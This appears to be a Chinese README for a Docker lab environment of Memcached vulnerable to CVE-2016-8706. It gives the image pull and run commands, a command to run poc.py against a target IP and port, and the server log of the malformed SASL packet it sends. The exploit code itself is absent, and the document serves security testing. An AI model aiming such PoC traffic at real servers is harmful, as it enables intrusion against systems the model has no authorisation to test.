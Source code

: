 ## Memcached Server SASL AUTENTICATION 远程代码执行漏洞(CVE-2016-8706)环境

### 说明

 感谢 [@xing-xiao](https://github.com/xing-xiao) 提供原始环境。 #6

### 漏洞信息

* [CVE-2106-8706漏洞信息](http://www.talosintelligence.com/reports/TALOS-2016-0221/)

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:m_memcached_CVE-2016-8706
 ```

2. 启动环境

 ```
$ docker run -d -p 11211:11211 medicean/vulapps:m_memcached_CVE-2016-8706
 ```

### 使用国内阿里云镜像

1. 拉取镜像到本地

 ```
$ docker pull registry.cn-hangzhou.aliyuncs.com/lo0o/memcached:1.4.32
 ```

2. 启动环境

 ```
$ docker run -d -p 11211:11211 registry.cn-hangzhou.aliyuncs.com/lo0o/memcached:1.4.32
 ```

### PoC

1. 获取目标 IP 地址与端口号，如：192.168.100.2 端口号为 11211

2. `docker ps` 查看容器ID（如获得的ID为：cfd94f8d5f93）

  附加 memcached 进程用于监测结果：

 ```
$ docker attach cfd94f8d5f93
 ```

3. 执行 poc.py

```
$ python poc.py 192.168.100.2 11211
```

4. 查看结果

```
<36 new auto-negotiating client connection
36: Client using the binary protocol
<36 Read binary protocol data:
<36    0x80 0x21 0x00 0x20
<36    0x00 0x00 0x00 0x01
<36    0x00 0x00 0x00 0x01
<36    0x41 0x41 0x41 0x41
<36    0x41 0x41 0x41 0x41
<36    0x41 0x41 0x41 0x41
>36 Writing an error: Unknown command
>36 Writing bin response:
>36   0x81 0x21 0x00 0x00
>36   0x00 0x00 0x00 0x81
>36   0x00 0x00 0x00 0x0f
>36   0x41 0x41 0x41 0x41
>36   0x00 0x00 0x00 0x00
>36   0x00 0x00 0x00 0x00
<36 Read binary protocol data:
<36    0x41 0x41 0x41 0x41
<36    0x41 0x41 0x41 0x41
<36    0x41 0x41 0x41 0x41
<36    0x41 0x41 0x41 0x41
<36    0x41 0x41 0x41 0x41
<36    0x41 0x41 0x41 0x41
Invalid magic:  41
<36 connection closed.
```

> 注意：
>
> 漏洞详细信息处的结果为Exp执行效果，该 PoC 并不会造成服务端崩溃。

### Exp

> 暂无命令执行 Exp，如果你愿意分享该 Exp 可向本仓库发起 [Pull Request](https://github.com/Medicean/VulApps/compare)
